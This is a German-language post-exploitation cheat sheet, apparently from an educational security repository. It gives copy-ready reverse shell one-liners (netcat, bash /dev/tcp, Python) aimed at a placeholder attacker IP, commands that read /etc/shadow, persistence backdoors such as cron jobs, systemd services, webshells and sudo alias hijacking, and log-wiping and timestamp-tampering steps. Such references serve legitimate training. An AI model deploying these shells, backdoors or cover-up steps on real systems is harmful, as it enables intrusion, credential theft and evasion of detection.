 # 🧪 postExploitationTools.md


---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools & Hilfsmittel](#nützliche-tools--hilfsmittel)
- [Reverse Shell Snippets](#reverse-shell-snippets)
- [Web-basierte Tools](#web-basierte-tools)
- [Persistenz-Techniken (nur zu Testzwecken!)](#persistenz-techniken-nur-zu-testzwecken)
- [Spuren verwischen](#spuren-verwischen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Nach einem erfolgreichen Angriff (z. B. durch RCE oder SQL-Injection) beginnt die sogenannte **Post-Exploitation-Phase**.  
Hierbei geht es nicht mehr darum, _in ein System einzudringen_, sondern darum, was man _innerhalb_ des kompromittierten Systems erreichen kann.

### Ziele der Post-Exploitation:

- **System- und Benutzerinformationen sammeln**
- **Persistenz herstellen**
- **Privilege Escalation (z. B. root-Rechte erlangen)**
- **Datenexfiltration**
- **Pivoting** (Zugriff auf weitere Systeme)
- **Verdeckte Backdoors / Remote Access installieren**

---

## Nützliche Tools & Hilfsmittel

### 🛠️ Lokale Tools auf dem Zielsystem

| Befehl / Tool     | Funktion |
|-------------------|----------|
| `uname -a`        | OS- und Kernel-Version anzeigen |
| `id`              | Aktueller Benutzer & Gruppen |
| `whoami`          | Aktueller Benutzername |
| `ps aux`          | Laufende Prozesse |
| `netstat -tulnp`  | Netzwerkverbindungen |
| `ss -tulnp`       | Modernere Alternative zu netstat |
| `find / -perm -4000` | SUID-Dateien (für Privilege Escalation) |
| `cat /etc/passwd` | Benutzerkonten anzeigen |
| `cat /etc/shadow` | Passwort-Hashes (nur als root lesbar) |
| `sudo -l`         | Prüfen, ob sudo-Rechte bestehen |
| `ls -la /home`    | Benutzerverzeichnisse |
| `ls -la /root`    | Root-Verzeichnis (falls zugänglich) |
| `history`         | Kommandoverlauf des aktuellen Benutzers |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 📦 Tools für Dateidownloads & Kommandozugriff

| Tool / Methode | Beschreibung |
|----------------|--------------|
| `wget` / `curl` | Dateien herunterladen (z. B. Backdoor, Binary) |
| `nc` (Netcat)   | Reverse Shells, Dateiübertragung |
| `python3 -m http.server` | HTTP-Dateifreigabe vom Angreifer aus |
| `scp`           | Dateiübertragung via SSH |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | Bash-Reverse-Shell |
| `socat`         | Stabile Reverse Shells & Tunnels |
| `ssh-keygen` & `authorized_keys` | Persistenz durch SSH-Key-Hinterlegung |

---

## Reverse Shell Snippets

### Netcat Reverse Shell:
```bash
nc -e /bin/bash YOUR-IP 4444
```

**Bash Reverse Shell:**
```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```

**Python Reverse Shell:**
```python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR-IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```

---

## Web-basierte Tools

| Tool                        | Beschreibung                                                     |
| --------------------------- | ---------------------------------------------------------------- |
| **LinPEAS**                 | Automatisierte Linux-Enum (Privilege Escalation)                 |
| **WinPEAS**                 | Windows-Enum (User, Services, Permissions)                       |
| **PowerUp**                 | PowerShell-basierte Privilege Escalation für Windows             |
| **pspy**                    | Beobachtet Prozesse ohne root                                    |
| **GTFOBins**                | Liste legitimer Linux-Kommandos, die zu Escalation führen können |
| **LOLBAS**                  | Windows-Äquivalent zu GTFOBins                                   |
| **chisel**                  | Tunneling Tool für Pivoting                                      |
| **sshuttle**                | VPN-ähnliches Tool für Netzwerktunneling                         |
| **Metasploit Post Modules** | z. B. Token Dumping, Hash Dumping etc.                           |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz-Techniken (nur zu Testzwecken!)

| Technik                             | Beispiel                           |
| ----------------------------------- | ---------------------------------- |
| SSH-Key im `~/.ssh/authorized_keys` | Dauerhafter Zugriff über Key       |
| Cronjob Backdoor                    | Automatisierte Shell bei Neustart  |
| Systemd-Service Backdoor            | `.service`-Datei mit Reverse Shell |
| Webshell in `/var/www/html`         | PHP-Webshell auf dem Webserver     |
| Bash-Alias Hijacking                | `.bashrc` mit `alias sudo='...'`   |

---

## Spuren verwischen

| Methode      | Beschreibung                           |
| ------------ | -------------------------------------- |
| `history -c` | Shell-History löschen                  |
| `touch -d`   | Dateizeitstempel manipulieren          |
| `shred`      | Dateien sicher löschen                 |
| `logrotate`  | Logdateien überschreiben oder rotieren |

⚠️ Viele dieser Methoden sind leicht detektierbar – nicht „invisible“!

---

## Siehe auch:

- [sql_injection_to_shell.md](/03-web-security/sql-injection/sql_injection_to_shell.md)
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)
- [union_based_attack.md](/14-vulnerabilities/sqlInjection/union_based_attack.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---